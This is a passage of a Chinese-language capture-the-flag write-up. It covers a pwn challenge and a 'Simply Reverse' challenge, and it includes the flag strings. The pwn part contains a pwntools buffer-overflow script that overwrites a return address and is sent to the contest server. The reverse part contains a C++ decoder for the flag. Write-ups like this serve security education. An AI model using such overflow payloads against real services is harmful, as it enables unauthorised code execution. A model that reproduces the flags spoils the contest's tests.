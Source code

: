 ```c
        previous = current;
        current = current->next;
        count++;
    }

    printf("User not found.\n");
    return head;
}
```

但全部蓋掉會 crash，因為下面還需要 stack 上的資訊，所以我們除了控制 return address ，還需要控制程式執行邏輯

在這個例子裡面，我們可以透過讓 user_index 小於 0，來讓程式提早結束，跳到我們想要的 address，避免存取到壞掉的 stack，導致 crash。

以下是 payload

```python=
from pwn import *

#r = process("./share/ms")
r = remote("chals1.ais3.org", 10003)
r.recvuntil(b"> ")
r.sendline(b"3")
r.recvuntil(b": ")

payload = p64(0x312d)+b"A"*8*12+p64(0x40131b)
#payload = b"-1"
raw_input()
r.sendline(payload)
raw_input()
r.interactive()
```

`FLAG{C0n6r47ul4710n5_0n_cr4ck1n6_7h15_pr09r4m_!!_!!_!}
`

## Reverse

### Simply Reverse

丟到 ida64 後發現主要的 function
![](https://hackmd.io/_uploads/ryG86vJH2.png)

可以寫對應的程式解出 flag

```
#include <iostream>

using namespace std;

int main()
{
    int enc[] = {138, 80, 146, 200, 6, 61, 91, 149, 182, 82, 27, 53, 130, 90, 234, 248, 148, 40, 114, 221, 212, 93, 227, 41, 186, 88, 82, 168, 100, 53, 129, 172, 10, 100, 0};

    for(int i = 0; i<35; i++){
        enc[i]-=8;
        cout << (((enc[i]>>((i ^ 9) & 3)|enc[i]<<(8 - ((i ^ 9) & 3)))) & 255 ^i)<< " ";

    }
}
```
